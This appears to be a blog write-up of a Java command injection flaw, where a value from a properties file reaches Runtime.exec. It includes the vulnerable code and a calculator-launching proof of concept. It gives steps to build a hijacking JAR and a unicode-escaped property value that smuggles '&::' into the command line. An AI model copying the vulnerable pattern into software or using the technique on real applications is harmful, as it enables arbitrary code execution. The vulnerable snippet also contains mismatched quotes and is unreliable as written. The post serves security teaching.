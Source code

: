 ```yaml
---
layout: single
title: Command Injection in Runtime.exec via Java Properties and JAR Hijacking
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.


The vulnerable code:

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();

try (FileInputStream stream = new FileInputStream("app.properties")) {
    properties.load(stream);
}

String options = properties.getProperty("options", "");
String command = String.format("\"C:/Program Files/Java/jre1.8.0_111/bin/javaw\" -cp ".;./dependencies/*\" %s com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

The configuration file.

```
options=
```

Save the following java code into a file named `Calc.java`. It is important to add the package at the beginning of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code. The `-d .` makes the compiler create the defined directory structure.

```
javac -d . Calc.java
```

When packaging the `.jar` file, you need to instruct the jar routine on how to pack it. Here I use the option set `cvfeP`. This is to keep the package structure (option `P`), specify the entry point so that the manifest file contains meaningful information (option `e`). Option `f` lets you specify the file name, option `c` creates an archive and option `v` sets the output to verbose. The important things to note here are `P` and `e`.

Next, follow the command with the name of the jar (test.jar) and the entry point.

Lastly, use `-C . <packagename>/` to get the class files from the specified folder, preserving the folder structure.

```
jar cvfeP calc.jar .Calc -C . command/injection/
```

Open the calc.jar file in a zip program. It should have the following structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

If you edit your manifest by hand, be sure to keep the newline at the end otherwise java doesn't recognize it.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the `application.properties` file of the application:

```
options=command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that the calculator application will open instead of the intended source.

Below is the value that had entered the `exec` function.

```
"C:/Program Files/Java/jre1.8.0_111/bin/javaw" -cp ".;./dependencies/*\" command.injection.Calc &:: com.example.main.Example
```

## References

- [https://wiki.owasp.org/index.php/Command_injection_in_Java](Command injection in Java)
